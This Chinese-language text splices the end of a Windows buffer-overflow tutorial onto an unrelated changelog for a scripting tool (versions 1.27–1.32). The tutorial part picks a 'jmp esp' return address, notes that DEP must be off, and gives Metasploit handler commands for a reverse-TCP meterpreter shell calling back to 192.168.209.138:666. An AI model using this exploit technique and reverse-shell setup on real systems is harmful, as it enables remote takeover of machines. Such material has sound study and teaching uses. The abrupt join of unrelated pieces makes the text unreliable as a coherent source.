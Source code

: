 ![](https://bbs.ichunqiu.com/data/attachment/album/202103/06/010634vfnlnaaklfzfx6wl.jpg)
`jmp esp`对应的就是ff e4。
最后找到了这么多，随便选一个：`0x5f4b41e3`
我们尝试一下，但是我们用的时候注意，我们这个地址是要能够执行的，如果不是的话呢要确保你的DEP是关闭的（上面说过了）。
还需要注意的是，我们内存的存储方式，需要反过来，也就是说我们要这样写：`\xe3\x41\x4b\x5f`，当然也是需要转换成十进制。
代码写好之后我们就需要配置我们的msf进行侦听：

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.209.138
set LPORT 666
exploit -j
```

最终我们的结果会是这个样子：

![](https://bbs.ichunqiu.com/data/attachment/album/202103/06/010636uzvpkcalois60f66.jpg)

最终我们成功的溢出了目标系统。

## V1.27

1. 增加了socket支持库
2. 修复了其余目录加载问题
3. 增加了n多脚本
4. 增加了Windows的wker脚本默认执行

## V1.28
1. 新增选中右键直接运行
2. 脚本搜索功能
3. 脚本增加至200多个

## V1.29
1. 修复了socket支持库读取阻塞问题
2. 增加了强行关闭运行功能

## V1.30

1. 修复了对象引用出错
2. 增加SSH支持库
3. 增加了FTP支持库
4. 增加了MySQL支持库
5. 增加了GBK的Http读取
6. 增加了Http的Safe版本
7. 增加了N多脚本

## V1.31

1. 增加了许多脚本，整理了脚本目录
2. 增加了插件
3. 增加全局数组的导入
4. 增加列举
5. 分离了新版本变化和使用指导

## V1.32
1. 增加了try catch块
2. 增加设置全局变量的运行时函数
3. 增加了time支持库
4. 增加了fofa和钟馗的脚本